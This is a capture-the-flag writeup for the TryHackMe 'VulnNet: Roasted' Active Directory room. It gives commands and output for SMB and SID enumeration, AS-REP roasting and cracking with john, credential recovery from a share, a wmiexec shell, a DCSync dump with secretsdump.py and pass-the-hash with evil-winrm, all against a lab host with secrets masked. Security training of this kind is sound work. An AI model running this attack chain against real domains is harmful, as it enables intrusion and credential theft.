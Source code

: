 # Active Directory Room
## VulnNet: Roasted Tryhackme (writeup)



Room: https://tryhackme.com/room/vulnnetroasted

### Tasks

User.txt


System.txt

IP= 10.10.250.145
>## 1- Nmap
 ```
 root@ubuntu:~# nmap -sC -sV -Pn -n -A 10.10.250.145

```
Output

Domain: vulnnet-rst.local

Netbios name: WIN-2BO8M1OE1M1



>## 2-Enumerate SMB

 ```
 root@ubuntu:~# smbclient -L \\\\10.10.250.145
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
	VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing

```
>## Username enumerate
we will use lookupsid.py
```
root@ubuntu:~# lookupsid.py anonymous@10.10.250.145

Password:
[*] Brute forcing SIDs at 10.10.250.145
[*] StringBinding ncacn_np:10.10.250.145[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)

```
create file with above users

>## GetNPUsers
```
root@ubuntu:~# GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -no-pass -dc-ip 10.10.250.145
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:85f4545ec4be97312a8824a26a0b9afa$010e2f219d16ea3af09d2da1d102[HIDEEN]

```
above command used to hash found

>## Crack Hashe
```
root@ubuntu:~# john  --wordlist=/root/THM/rockyou.txt hashe.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])

```
Found password

>## Smbclient

```
root@ubuntu:~# smbclient  -U t-skid \\\\10.10.250.145\\NETLOGON
Enter WORKGROUP\t-skid's password:

```
 ````
 smb: \> ls
  .                                   
  ..                                  
  ResetPassword.vbs                   

		
smb: \> get ResetPassword.vbs
````

````

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs 
smb: \> 
````

````
root@ubuntu:~# cat ResetPassword.vbs 


````
CREDENTIALS are above in above file

>## wmiexec.py

Using credentials found above
```
root@ubuntu:~# wmiexec.py vulnnet-rst.local/a-whitehat@10.10.116.57

```
you got shell and try to find user.txt

```
c:\>dir
c:\>cd Users
c:\Users>dir
c:\Users>cd enterprise-core-vn
c:\Users\enterprise-core-vn>dir
c:\Users\enterprise-core-vn>cd Desktop

c:\Users\enterprise-core-vn\Desktop>dir
c:\Users\enterprise-core-vn\Desktop>cat user.txt
THM{xyz}

````
 ## Privilege

DCSync attack

>## secretsdump.py

```
root@ubuntu:~# secretsdump.py vulnnet-rst.local/a-whitehat:******************@10.10.250.145

Administrator:c25xxxxxxx

```
## try to login with above hash of Admin

```
root@ubuntu:~# evil-winrm -i 10.10.250.145 -u Administrator -H c25xxxxxc3b09d

Evil-WinRM shell v2.3

\Users\Administrator\Documents> cd c:\Users\Administrator\Desktop
c:\Users\Administrator\Desktop> dir
system.txt
C:\Users\Administrator\Desktop> cat system.txt
THM{16xyz}

```
